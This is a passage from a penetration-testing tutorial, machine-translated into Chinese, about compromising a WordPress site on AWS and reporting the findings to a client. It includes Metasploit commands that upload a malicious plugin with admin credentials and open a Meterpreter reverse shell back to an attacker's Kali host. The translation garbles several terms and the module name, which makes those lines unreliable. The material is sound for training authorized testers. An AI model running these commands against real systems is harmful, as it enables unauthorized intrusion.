 ![Figure 9.29 – Reverse shell from our target host ](image/Figure_9.29_B15630.jpg)

图 9.29–从目标主机反转外壳

好的，所以我们用我们奇特的有效载荷得到了一个**Netcat**外壳。然而，现在让我们通过得到一个**米计**外壳来简化事情！我个人觉得 MeterMeter 外壳更令人愉快，因为您可以将它们与 Metasploit 一起使用，并且它们具有典型外壳所不具备的额外功能。

为了获得米计外壳，我们将在 Metasploit 中使用 WordPress 漏洞。我们将使用评估期间发现的凭据以及 AWS Kali Linux 主机来捕获传入连接。

启动 Metasploit 后，使用以下命令加载模块并将其配置为以主机为目标：

**$使用漏洞/unix/webapp/wp\u 管理\u 外壳\u 上传**

**$设置密码管理员**

**$set username admin**

**$set rhosts<目标公共 DNS>**

**$set lhost<AWS 卡利公共 DNS>**

**$set lport 443**

**$run**

这将产生以下输出：

![Figure 9.30 – Meterpreter reverse shell from our target host ](image/Figure_9.30_B15630.jpg)

图 9.30–目标主机的米表反转外壳

如您所见，我们已经成功地通过**Netcat**外壳和**MeterMeter**外壳访问了主机操作系统。从外观上看，这个应用程序相当不安全，安全性非常低。现在，我们已经完成了对该应用程序的 pentest，是时候继续讨论这些问题了，以及您可以如何与其他讨论如何解决这些问题。

## 讨论问题

一旦五旬考试结束，你就必须与你的目标讨论在五旬考试中发现的一些问题。另外，非常重要的一点是，不要使用可能会让不懂技术的客户感到困惑的极端技术术语。让客户感到困惑或被技术术语弄得不知所措实际上会把客户赶走，他们可能不会推荐你参加另一次 pentest。

以下是我们将写给客户的声明，并将 pentest 调查结果附在声明中：

在 WordPress 应用程序的 pentest 期间，PenTester 成功地通过猜测和社会工程提取密码。社会工程涉及向用户发送恶意链接，希望其中一个用户点击该链接，并将其凭据输入类似于客户网站的内容。

在获得访问权限后，pentester 向前移动并在 web 应用程序中放置恶意代码，然后这些代码可用于授予对目标服务器的未经授权的访问权限。

建议客户培训其员工不要点击恶意链接，并且工程师不要对任何应用程序使用弱凭据。还建议审查密码策略，以防止将来创建简单的用户名和密码。如果您有任何问题，请告知，我们期待再次与您合作。

正如你所看到的，我们避免使用任何重科技的术语，并建议修复什么。这让目标客户明白，我们是来帮助他们的，我们将与他们合作解决他们的问题，最终巩固与客户业务的关系。

既然我们已经被一些有趣的 WordPress 黑客攻击弄得脏兮兮的，那么让我们看看在评估 AWS 环境时可能遇到的一些不同问题。接下来，我们将开始研究如何发现托管在 EC2 上的易受攻击的应用程序离子。

# 针对易受攻击的服务应用程序

**易受攻击的服务**是环境中最糟糕的事情之一，也是最容易修复的事情之一*，但并不总是最便宜的*。随着应用程序的老化，用于构建应用程序的代码也会老化，随着时间的推移，旧应用程序的漏洞也会老化。不幸的是，虽然简单地修补或更新旧软件听起来很容易，但实际上相当昂贵和耗时。更新应用程序可能需要大量的时间，并导致应用程序使用的服务无法正常运行。这意味着收入和可用性的损失。

在下一个场景中，我们将看到有 AWS 的网络上有漏洞的应用程序造成的实际损害。
